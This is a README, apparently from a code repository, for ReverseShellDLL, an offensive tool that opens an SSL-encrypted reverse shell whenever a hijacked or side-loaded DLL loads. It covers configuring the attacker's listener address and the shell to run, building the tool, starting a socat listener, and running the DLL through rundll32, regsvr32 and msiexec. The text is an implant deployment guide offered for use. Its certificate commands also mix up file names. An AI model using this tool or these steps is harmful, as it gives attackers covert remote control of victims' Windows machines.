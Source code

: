 ReverseShellDLL
===============

Main Features
-------------
1. Universal DLL Hijack - ReverseShellDLL uses the DLL_PROCESS_ATTACH notification to ensure that the reverse shell is executed regardless of the export called. When the reverse shell exits, the process is gracefully terminated, hence the "export not found" error message will never show. 
2. SSL Encryption - ReverseShellDLL uses OpenSSL library to perform the encryption.
3. Statically Linked - ReverseShellDLL will run on all recent Windows versions out of the box without need for .NET framework or Microsoft C Runtime library to be installed.

![image](https://limbenjamin.com/media/reverseshelldll.png)

Configuration
-------------
```
ip 	- IP Address where listener is running
port 	- Port where listener is running
process - Shell to Execute (i.e. cmd.exe, powershell.exe, bash.exe)
exitCmd	- Typing this Cmd will cause the program to terminate


bufferSize (bytes) / delayWait (millisecs)
- High bufferSize and high delayWait will result in huge chunks of output to be buffered and sent at one time.
- Low bufferSize and low delayWait will result in "smooth" terminal experience at the expense of more small packets.  

* Some binaries verify that exports match before loading DLLs. You might have to change the export names in ReverseShellDLL.cpp to match the target hijack binary.

```

Compilation Instructions
------------------------
1. Install OpenSSL. I used the version from [https://slproweb.com/products/Win32OpenSSL.html](https://slproweb.com/products/Win32OpenSSL.html). Installation path is `C:\Program Files\OpenSSL-Win64`. Make sure to select the option to copy DLL to system folder during installation. Otherwise, you may have to tweak the Project Properties to get it to compile.
2. Git clone repository
3. Configure as necessary
4. Build binary

Running
-------
1. Generate SSL cert on listener machine
```shell
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
cat test.key test.crt > test.pem
```
2. Start listener
```shell
socat openssl-listen:1443,reuseaddr,cert=test.pem,verify=0,fork,crnl -
```
3. Deploy DLL in appropriate hijack location. If necessary, it can also be started via rundll32, regserver32 or other LOLBINs.
```shell
rundll32.exe ReverseShellDLL.dll,UniversalSoWhatEverYouTypeHereWillWork
rundll32.exe ReverseShellDLL.dll,CoCreateInstance
regsvr32.exe ReverseShellDLL.dll
msiexec /y "C:\path\to\dll\ReverseShellDLL.dll"
```



